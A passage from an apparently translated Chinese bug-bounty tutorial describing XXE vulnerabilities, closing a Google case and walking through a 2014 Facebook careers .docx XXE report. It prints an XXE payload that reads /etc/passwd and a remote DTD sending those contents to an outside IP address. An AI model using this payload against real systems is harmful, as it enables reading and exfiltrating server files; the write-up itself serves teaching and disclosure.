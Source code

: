 Google 内部文件的 Detectify 截图

> 重要结论
> 
> 大公司甚至都存在漏洞。虽然这个报告是两年之前了，它仍然是一个大公司如何犯错的极好的例子。所需的 XML 可以轻易上传到站点，站点使用了 XML 解析器。但是，有时站点不会产生响应，所以你需要测试来自 OWASP 速查表的其它输入。

### 2\. Facebook 单词 XXE

难度：难

URL：`facebook.com/careers`

报告链接：`http://www.attack-secure.com/blog/hacked-facebook-word-document`

报告日期：2014.4

奖金：$6300

描述：

这个 XXE 有一些区别，并且比第一个例子更有挑战，因为它涉及到远程调用服务器，就像我们在描述中讨论的那样。

2013 年末，Facebook 修补了一个 XXE 漏洞，它可能会升级为远程代码执行漏洞，因为`/etc/passwd`文件的内容是可访问的。奖金约为$30000。

因此，在 Mohamed 于 2014 年 4 月挑战自己来渗透 Facebook 的时候，它不认为 XXE 可能存在，直到他发现它们的职位页面允许用户上传`.docx`文件，它可以包含 XML。对于那些不知道的人，`.docx`文件只是个 XML 文件的压缩包。所以，根据 Mohames，它创建了一个`.docx`文件，并使用 7zip 打开它来提取内容，并将下面的载荷插入了一个 XML 文件中。

```
<!DOCTYPE root [ 
<!ENTITY % file SYSTEM "file:///etc/passwd"> 
<!ENTITY % dtd SYSTEM "http://197.37.102.90/ext.dtd"> 
%dtd; 
%send; 
]]>
```

你会想到，在解析的时候，如果受害者开启了外部实体，XML 解析器会调用远程主机。要注意`!ENTITY`定义中和下面使用了`%`。这是因为这些占位符用在 DTD 自身中。在收到请求调用之后，远程服务器会发送回 DTD 文件，像这样：

```
<!ENTITY send SYSTEM 'http://197.37.102.90/?%26file;'>"
```

所以，回到文件中的载荷：

1.  解析器会将`%dtd;`替换为获取远程 DTD 文件的调用。

2， 解析器会将`%send;`替换为服务器的远程调用，但是`%file;`会替换为`file:///etc/passwd`的内容。

所以，Mohamed 使用 Python 和`SimpleHTTPServer`开启了一台本地服务器，并等待接收：

![](../img/338cf0d4a07b797650bf57cb4f83aa97.png)
